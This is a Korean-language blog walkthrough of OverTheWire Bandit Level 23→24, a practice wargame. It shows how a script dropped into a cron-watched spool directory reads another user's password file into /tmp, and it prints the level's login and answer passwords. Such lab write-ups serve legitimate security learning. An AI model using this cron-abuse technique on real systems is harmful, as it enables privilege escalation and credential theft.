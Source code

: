 ```yaml
---
layout: post
title: "[Bandit] Level 23 → 24 풀이"
date: 2025-07-05 09:04:00 +0900
categories: [bandit]
tags: [overthewire, bandit, linux, cron, shell-script]
---
```


> 📝 **공식 문제 (Level 23 → 24)**
>
> **Level Goal**
> A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.
>
> **Commands you may need to solve this level**
> `cron`, `crontab`, `cronjob`

---

## 🔐 Level Info

- **접속 정보**
  - 사용자: `bandit23`
  - 비밀번호: `YkH2SGAfH11sQ17GvD2sXnoP9i4vGg02`
  
- **접속 명령어**

  ```bash
ssh bandit23@bandit.labs.overthewire.org -p 2220
  ```

---

## 🧪 풀이 과정

1.  `/etc/cron.d/cronjob_bandit24` 확인. `/var/spool/bandit24` 디렉토리의 모든 실행 파일을 1분마다 실행하는 것을 파악
2.  `/tmp` 디렉토리에 다음 레벨의 비밀번호를 읽어 다른 `/tmp` 파일에 저장하는 쉘 스크립트 작성
3.  작성한 스크립트를 `/var/spool/bandit24` 디렉토리에 복사하고 실행 권한 부여
4.  1분 정도 기다린 후, 결과가 저장된 `/tmp` 파일의 내용을 확인

```bash
# 스크립트 작성
bandit23@bandit:~$ echo '#!/bin/sh' > /tmp/hamap.sh
bandit23@bandit:~$ echo 'cat /etc/bandit_pass/bandit24 > /tmp/hamap_pass' >> /tmp/hamap.sh

# 스크립트 복사 및 권한 부여
bandit23@bandit:~$ cp /tmp/hamap.sh /var/spool/bandit24/
bandit23@bandit:~$ chmod +x /var/spool/bandit24/hamap.sh

# 결과 확인
bandit23@bandit:~$ sleep 60; cat /tmp/hamap_pass
```

---

## 🎯 결과

<details markdown="1">
<summary>👀 클릭하여 비밀번호 확인하기</summary>

```bash
D2J41fb8mpcr9hjsf32ECf2d012eK2g9
```

</details>

---

##💡 배운 점
1. 쉘 스크립트 작성: 원하는 명령어들을 파일로 만들어 순차적으로 실행할 수 있음.
2. chmod +x [파일명]: 파일에 실행 권한을 부여함.

<hr class="short-rule">
